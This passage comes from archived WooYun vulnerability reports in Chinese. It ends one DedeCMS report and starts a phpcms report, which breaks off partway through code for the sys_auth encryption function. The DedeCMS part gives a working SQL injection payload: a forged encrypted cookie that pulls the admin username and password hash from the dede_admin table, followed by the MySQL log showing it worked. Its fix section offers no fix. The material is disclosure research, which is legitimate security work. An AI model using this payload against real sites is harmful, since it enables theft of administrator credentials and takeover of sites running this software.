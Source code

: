 ```php
dede_cracked("id=108&price=11&units=&buynum=1&title=aa","AWgGMlFrAzNUMAFqWyYBdFV0UmgHNFI3Vm0BMwUwBC4AdQc5CmRVIAcgBWtfNVBzATBVcwApAW8FdlE%2FWWBVaAEnBiJRPwN2VGwBN1s9AWVVZw==","id=',\"'&title=\" or ',','8',(SELECT concat(uname,0x23,pwd) FROM dede_admin LIMIT 1),',','1')#","encrypt"); 
```

修改 cookie，提交订单

可以看到 mysql 的执行日志

```php
INSERT INTO `dede_shops_products` (`aid`,`oid`,`userid`,`title`,`price`,`buynum`)

                    VALUES ('',"'','wooyuni','8','" or ',','8',(SELECT concat(uname,0x23,pwd) FROM dede_admin LIMIT 1),',','1')#','0.00','0') 
```

查看商品，ok，数据出来了~

![1.jpg## 漏洞证明![](img/140255294d7d9ff7fb72fa411b42a759933a26bf.jpg)

## 修复方案

你们更专业~~

# WooYun-2014-66138：phpcms 最新版绕过全局防御暴力注入（官网演示）

漏洞作者： [索马里的海贼](http://www.wooyun.org/whitehats/索马里的海贼)

来源：[`www.wooyun.org/bugs/wooyun-2014-066138`](http://www.wooyun.org/bugs/wooyun-2014-066138)

## 简要描述

加解密函数缺陷第三发，注入演示 版本 20140522 无视全局防御 搬个沙发吧。。这个比 destoon 那个要麻烦多了。。。

## 详细说明

先从函数说起

phpcms/libs/functions/global.func.php 行 335

```php
function sys_auth($string, $operation = 'ENCODE', $key = '', $expiry = 0) {

    $key_length = 4;

    $key = md5($key != '' ? $key : pc_base::load_config('system', 'auth_key'));

    $fixedkey = md5($key); //keya 用于加解密

    $egiskeys = md5(substr($fixedkey, 16, 16)); //keyb 用于数据完整性校验

    $runtokey = $key_length ? ($operation == 'ENCODE' ? substr(md5(microtime(true)), -$key_length) : substr($string, 0, $key_length)) : ''; //keyc（初始化向量 iv）

    $keys = md5(substr($runtokey, 0, 16) . substr($fixedkey, 0, 16) . substr($runtokey, 16) . substr($fixedkey, 16));//由 keya 和 heyc 组合而成 直接参与运算，这里叫 keyd 吧
```